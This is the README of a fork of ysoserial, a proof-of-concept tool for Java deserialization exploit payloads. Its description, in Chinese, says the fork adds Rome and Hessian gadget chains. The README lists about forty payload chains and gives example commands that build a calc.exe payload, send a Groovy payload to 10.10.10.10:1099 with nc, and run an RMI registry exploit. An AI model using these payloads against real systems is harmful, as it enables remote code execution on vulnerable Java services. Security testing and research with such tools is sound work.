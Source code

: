 
# ysoserial

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)
[![Travis Build Status](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/github/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)
[![JitPack](https://jitpack.io/v/frohoff/ysoserial.svg)](https://jitpack.io/#frohoff/ysoserial)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

该项目fork自ysoerial的原仓库，用于增添本人在学习过程当中的所遇到的所有反序列化链，后续会根据需要进行额外开发。

## Log
1.现已加入Rome全家桶（RomeSpring、Rome2、RomeBypassHashmap、RomeSignedObject、SpringRome1、RomeJdbc）
2.现已加入两个基于Hessian的利用链，支持Hessian利用链的二进制文件输出，具体的命令格式参考usage
`Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
java -jar ysoserial-[version]-all.jar [Hessian-payload] '[command]/[url]' [filename]`

## Usage

```shell
E:\Github\repo\target>java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
六月 17, 2024 2:32:51 下午 org.reflections.Reflections scan
信息: Reflections took 166 ms to scan 1 urls, producing 18 keys and 170 values
     Payload             Authors                                Dependencies

     -------             -------                                ------------

     AspectJWeaver       @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2
     BeanShell1          @pwntester, @cschneider4711            bsh:2.0b5
     C3P0                @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Click1              @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0
     Clojure             @JackOfMostTrades                      clojure:1.8.0
     CommonsBeanutils1   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1 @frohoff                               commons-collections:3.1
     CommonsCollections2 @frohoff                               commons-collections4:4.0
     CommonsCollections3 @frohoff                               commons-collections:3.1
     CommonsCollections4 @frohoff                               commons-collections4:4.0
     CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6 @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1             @frohoff                               groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser                       js:1.7R2
     MozillaRhino2       @_tint0                                js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                              rome:1.0
     ROME2               @f4nx1ng                               rome:1.0
     RomeBypassHashmap   @f4nx1ng                               rome:1.0
     RomeException       @f4nx1ng                               rome:1.0
     RomeJdbc            @f4nx1ng                               rome:1.0
     RomeSignedObject    @f4nx1ng                               rome:1.0
     Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     SpringRome1         @f4nx1ng
     URLDNS              @gebl
     Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)

Download the [latest release jar](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar) from GitHub releases.

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/github/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [frohoff/ysoserial](https://github.com/frohoff/ysoserial)
